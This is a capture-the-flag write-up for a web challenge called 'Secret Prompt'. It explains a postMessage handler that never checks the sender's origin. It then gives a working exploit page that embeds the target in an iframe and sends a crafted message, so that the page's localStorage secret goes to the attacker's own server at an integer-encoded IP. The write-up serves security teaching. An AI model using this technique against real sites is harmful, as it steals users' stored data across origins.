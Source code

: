 # Secret Prompt

## Solution

The page uses `postMessage` to interact with its Javascript:

- `postMessage({ secret: a.value, prompt: b.value })` to send a message
- `onmessage = (e) => { ... }` to listen for posted messages

[postMessage](https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage) and [onmessage](https://developer.mozilla.org/en-US/docs/Web/API/Window/message_event) are methods on the `window` object so `postMessage` could be also writtern as `window.postMessage`.

A common issue when `postMessage` is used is when the receiver of the message does not check the origin of the message to confirm it's coming from a trusted page.

This can be abused by a malicious page that embeds the vulnerable page in an iframe. The parent window can send messages to its child iframes.

To get the flag we can:

1. Host our own page that embeds the challenge's page
2. Add JavaScript in our page that sends a `postMessage` to the challenge's child iframe with a message we control
3. Get the flag

Now let's figure out what that message should be.

```javascript
onmessage = (e) => {
  const secret = parseInt(e.data.secret);
  const prompt = e.data.prompt;
  // let's go
  if (!Number.isSafeInteger(secret)) {
    return (error.innerText = "Bad Secret :(");
  }
  // be positive
  if (secret <= 0) {
    return (error.innerText = "Bad Secret :(");
  }
  // i don't like odds
  if (secret % 2 !== 0) {
    return (error.innerText = "Bad Secret :(");
  }
  // build a function
  ((_, ...s) => fetch(`//${s[1]}?p=${s[2]}&k=${s[0]}`))// secret instructions
  `I'll give you a ${localStorage["gift"]} if you know the ${secret} ${prompt}! 🎁`;
  // good luck & goodbye
};
```

The first three `if`s just ensure that `secret` is a positive, even, integer number.

The last two(?) lines of code essentially send a fetch request to `${secret}` and adds `${prompt}` and `${localStorage["gift"]}` in the URL parameters.

So the tricks here to understand this JavaScript code is:

1. Understand [Self-Executing Anonynomous Functions](https://developer.mozilla.org/en-US/docs/Glossary/IIFE)
2. Understand [Tagged Templates](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Template_literals#tagged_templates) (essentially calling a function using backticks instead of parentheses)
3. Know you can send an HTTP request to an IP address in its integer representation (inspired by https://twitter.com/h43z/status/1618220318023364608)
4. Also you should notice that with the absence of semicolons, the last 2 lines are essentially one single statement: `` ((...)=>{...})`...` ``

Putting this altogether:

You can host a page that looks like this:

```html
<!-- index.html -->
<!DOCTYPE html>
<html>
<iframe id="i" src="http://challenges.cybermouflons.com:xxxxx" width="800" height="800"></iframe>
<script>
    const ip2int = (ip) => ip.split('.').reduce((ipInt, octet) => (ipInt << 8) + parseInt(octet, 10), 0) >>> 0;
    const MY_IP = 'xxx.xxx.xxx.xxx';
    <!-- assert ip2int(MY_IP) % 2 === 0 -->
    setTimeout(() => i.contentWindow.postMessage({ secret: ip2int(MY_IP), prompt: 'nothing' }, '*'), 1000);
</script>
</html>
```

At the same time we have a web server listening on an "even" IP address where we should receive a GET request with the flag in the URL parameters.
